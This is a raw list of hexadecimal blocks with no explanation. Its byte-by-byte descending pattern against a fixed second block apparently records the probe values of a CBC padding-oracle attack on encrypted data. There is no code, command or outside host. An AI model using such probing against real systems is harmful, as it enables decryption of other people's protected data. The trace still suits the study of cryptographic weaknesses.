000000000000000040ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000003fce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000003ece8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000003dce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000003cce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000003bce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000003ace8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000039ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000038ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000037ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000036ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000035ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000034ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000033ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000032ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000031ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000030ce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000002fce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000002ece8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000002dce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000002cce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000002bce8b07ea06a6fe77eb9f8779eeda009e2365505fa7e3d6
00000000000000ff2acf8a06eb07a7ff77eb9f8779eeda009e2365505fa7e3d6
00000000000000fe2acf8a06eb07a7ff77eb9f8779eeda009e2365505fa7e3d6
00000000000000fd2acf8a06eb07a7ff77eb9f8779eeda009e2365505fa7e3d6
00000000000000fc2acf8a06eb07a7ff77eb9f8779eeda009e2365505fa7e3d6
00000000000000fb2acf8a06eb07a7ff77eb9f8779eeda009e2365505fa7e3d6
00000000000000fa2acf8a06eb07a7ff77eb9f8779eeda009e2365505fa7e3d6
000000000000fff929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000fef929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000fdf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000fcf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000fbf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000faf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000f9f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000f8f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000f7f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000f6f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000f5f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000f4f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000f3f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000f2f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000f1f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000f0f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000eff929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000eef929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000edf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000ecf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000ebf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000eaf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000e9f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000e8f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000e7f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000e6f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000e5f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000e4f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000e3f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000e2f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000e1f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000e0f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000dff929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000def929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000ddf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000dcf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000dbf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000daf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000d9f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000d8f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000d7f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000d6f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000d5f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000d4f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000d3f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000d2f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000d1f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000d0f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000cff929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000cef929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000cdf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000ccf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000cbf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000caf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000c9f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000c8f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000c7f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000c6f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000c5f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000c4f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000c3f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000c2f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000c1f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000c0f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000bff929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000bef929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000bdf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000bcf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000bbf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000baf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000b9f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000b8f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000b7f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000b6f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000b5f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000b4f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000b3f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000b2f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000b1f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000b0f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000aff929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000aef929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000adf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000acf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000abf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000aaf929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000a9f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
000000000000a8f929cc8905e804a4fc77eb9f8779eeda009e2365505fa7e3d6
0000000000ffa9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000fea9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000fda9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000fca9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000fba9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000faa9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000f9a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000f8a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000f7a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000f6a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000f5a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000f4a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000f3a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000f2a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000f1a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000f0a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000efa9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000eea9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000eda9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000eca9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000eba9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000eaa9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000e9a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000e8a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000e7a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000e6a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000e5a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000e4a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000e3a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000e2a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000e1a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000e0a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000dfa9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000dea9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000dda9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000dca9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000dba9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000daa9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000d9a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000d8a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000d7a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000d6a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000d5a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000d4a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000d3a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000d2a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000d1a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000d0a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000cfa9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000cea9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000cda9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000cca9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000cba9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000caa9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000c9a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000c8a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000c7a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000c6a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000c5a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000c4a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000c3a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000c2a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000c1a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000c0a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000bfa9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000bea9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000bda9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000bca9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000bba9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000baa9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000b9a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000b8a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000b7a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000b6a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000b5a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000b4a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000b3a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000b2a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000b1a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000b0a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000afa9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000aea9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000ada9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000aca9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000aba9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000aaa9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000a9a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000a8a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000a7a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000a6a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000a5a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000a4a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000a3a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000a2a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000a1a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
0000000000a0a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
00000000009fa9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
00000000009ea9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
00000000009da9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
00000000009ca9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
00000000009ba9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
00000000009aa9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
000000000099a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
000000000098a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
000000000097a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
000000000096a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
000000000095a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
000000000094a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
000000000093a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
000000000092a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
000000000091a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
000000000090a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
00000000008fa9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
00000000008ea9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
00000000008da9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
00000000008ca9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
00000000008ba9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
00000000008aa9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
000000000089a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
000000000088a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
000000000087a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
000000000086a9f828cd8804e905a5fd77eb9f8779eeda009e2365505fa7e3d6
00000000ff81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000fe81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000fd81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000fc81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000fb81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000fa81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000f981aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000f881aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000f781aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000f681aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000f581aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000f481aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000f381aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000f281aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000f181aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000f081aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000ef81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000ee81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000ed81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000ec81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000eb81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000ea81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000e981aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000e881aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000e781aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000e681aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000e581aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000e481aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000e381aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000e281aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000e181aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000e081aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000df81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000de81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000dd81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000dc81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000db81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000da81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000d981aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000d881aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000d781aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000d681aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000d581aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000d481aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000d381aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000d281aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000d181aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000d081aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000cf81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000ce81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
00000000cd81aeff2fca8f03ee02a2fa77eb9f8779eeda009e2365505fa7e3d6
000000ffcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000fecc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000fdcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000fccc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000fbcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000facc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000f9cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000f8cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000f7cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000f6cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000f5cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000f4cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000f3cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000f2cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000f1cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000f0cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000efcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000eecc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000edcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000eccc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000ebcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000eacc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000e9cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000e8cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000e7cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000e6cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000e5cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000e4cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000e3cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000e2cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000e1cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000e0cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000dfcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000decc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000ddcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000dccc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000dbcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000dacc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000d9cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000d8cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000d7cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000d6cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000d5cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000d4cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000d3cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000d2cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000d1cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000d0cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000cfcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000cecc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000cdcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000cccc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000cbcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000cacc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000c9cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000c8cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000c7cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000c6cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000c5cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000c4cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000c3cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
